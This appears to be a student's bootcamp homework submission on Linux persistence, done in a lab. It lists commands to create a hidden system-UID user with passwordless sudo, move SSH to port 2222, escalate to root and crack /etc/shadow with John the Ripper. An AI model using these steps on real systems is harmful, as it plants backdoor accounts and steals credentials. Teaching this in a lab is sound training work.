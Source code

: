 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:

        sudo useradd --no-create-home sysd

2. Give your secret user a password: 

        sudo passwd sysd

3. Give your secret user a system UID < 1000:

        sudo usermod -u 150 sysd

4. Give your secret user the same GID:

        sudo groupmod -g 150 sysd


    ![pic](image/UID_GID.PNG)



5. Give your secret user full `sudo` access without the need for a password:


        sudo visudo


    ![pic](image/No_passwd.PNG)

6. Test that `sudo` access works without your password:

    ```bash
    su sysd
    sudo apt update
    ```


    ![pic](image/CHK_NO_PASS.PNG)


**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ![pic](image/SHH_Port.PNG)

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:

        sudo systemctl restart ssh

2. Exit the `root` account:

        exit

    ![pic](image/Exit.PNG)

3. SSH to the target machine using your `sysd` account and port `2222`:

        ssh sysd@192.168.6.105 -p 2222

    ![pic](image/Login.PNG)

4. Use `sudo` to switch to the root user:

        sudo su root

    ![pic](image/root.PNG)

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

         ssh sysd@192.168.6.105 -p 2222

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

        sudo su root
        john --wordlist=/home/student/Desktop/.pass_list.txt /etc/shadow
        john --show /etc/shadow 

    ![pic](image/John.PNG)

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

